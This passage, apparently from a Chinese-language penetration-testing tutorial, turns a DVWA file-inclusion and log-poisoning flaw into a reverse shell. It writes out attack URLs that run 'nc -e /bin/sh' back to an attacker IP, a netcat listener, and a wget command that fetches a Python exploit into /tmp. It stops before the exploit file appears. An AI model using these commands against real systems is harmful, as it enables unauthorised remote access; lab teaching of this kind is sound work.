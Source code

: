 现在让我们尝试从相同的`cmd`参数中获得一个反向 shell。我们将使用`netcat`来获得反向 shell。如果服务器上没有安装 netcat，我们也可以使用 Python 来获得 shell。让我们看看两者的效果。

# 使用 Netcat 进行反向 shell

在这种情况下，URL 和命令将如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=nc -e /bin/sh 192.168.1.102 4444`。

我们还需要设置一个`netcat`监听器，它将在端口`4444`上监听传入的连接。让我们在另一个终端上执行`nc -nlvp 4444`命令。现在，浏览 URL，看看我们是否得到了 shell：

![](img/6cb31672-8088-4619-8644-f3f2fd021296.png)

浏览此 URL 后，让我们尝试查看我们生成的`netcat`监听器，看看我们是否获得了 shell：

![](img/ac74a96b-fa99-40f3-b85e-5b63cc020431.png)

可以验证，我们得到了一个低权限的 shell，`www-data`。

# 使用 Python 进行反向 shell

现在，假设服务器上没有安装 Netcat。我们将使用 Python 来获得 shell。由于底层服务器是基于 Linux 的，默认情况下会安装 Python。因此，我们将修改我们的利用命令如下：

`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`

可以看到，我们将创建一个用 Python 编写的漏洞利用文件，并在攻击者机器上提供服务。由于在当前示例中，攻击者和受害者都在同一台机器上，URL 是`http://192.168.1.102`。漏洞利用文件的内容如下所示：
